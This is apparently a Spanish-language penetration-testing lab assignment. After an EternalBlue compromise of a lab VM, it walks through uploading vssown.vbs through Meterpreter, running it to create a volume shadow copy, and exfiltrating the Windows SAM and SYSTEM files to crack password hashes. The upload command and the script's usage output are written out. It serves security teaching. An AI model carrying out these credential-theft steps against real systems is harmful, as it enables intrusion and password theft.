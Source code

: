     Todos estos elementos confirman que el ataque EternalBlue se ejecutó correctamente y se logró establecer una conexión remota con privilegios elevados en el sistema objetivo.

### 2.5. Exfiltración de Archivos SAM y SYSTEM (2 puntos)
- Utilizando la sesión de Meterpreter establecida, explica los pasos para infiltrar un script o herramienta que te permita crear una copia de volumen de sombra (Volume Shadow Copy) de la unidad principal (C:) del servidor.

- Link de descarga del archivo vssown.vbs: Descargar archivo

- Describe brevemente cómo utilizarías esta copia de sombra para acceder a los archivos SAM y SYSTEM. Enumera los comandos necesarios en Meterpreter o la shell de Windows para:

- Crear la copia de sombra.
    ```bash
    meterpreter > upload  /home/user/Downloads/vssown.vbs vagrant@10.0.2.4:/cygdrive/c/Users/vagrant

    ```  
- Ejecutar

    ```bash

/cygdrive/c/Users/vagrant
-sh-4.3$                    
-sh-4.3$ cscript.exe vssown.vbs
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.

Usage: cscript vssown.vbs [option]

cscript vssown.vbs create 

  Options:

  /list                             - List current volume shadow copies.
  /start                            - Start the shadow copy service.
  /stop                             - Halt the shadow copy service.
  /status                           - Show status of shadow copy service.
  /mode                             - Display the shadow copy service start mode.
  /mode [Manual|Automatic|Disabled] - Change the shadow copy service start mode.
  /create [drive_letter]            - Create a shadow copy.
  /delete [id|*]                    - Delete a specified or all shadow copies.
  /mount [path] [device_object]     - Mount a shadow copy to the given path.
  /execute [\path\to\file]          - Launch executable from within an umounted shadow copy.
  /store                            - Display storage statistics.
  /size [bytes]                     - Set drive space reserved for shadow copies.
  /build [filename]                 - Print pasteable script to stdout.


    ```  

- Copiar los archivos SAM y SYSTEM a un directorio accesible.

- Descargar los archivos a tu máquina atacante.

### 2.6. Análisis de los Archivos Exfiltrados (2 puntos)
- Una vez que hayas descargado los archivos SAM y SYSTEM, describe el procedimiento que seguirías en tu máquina atacante para extraer los hashes de contraseñas. Especifica qué herramientas emplearías para realizar esta tarea.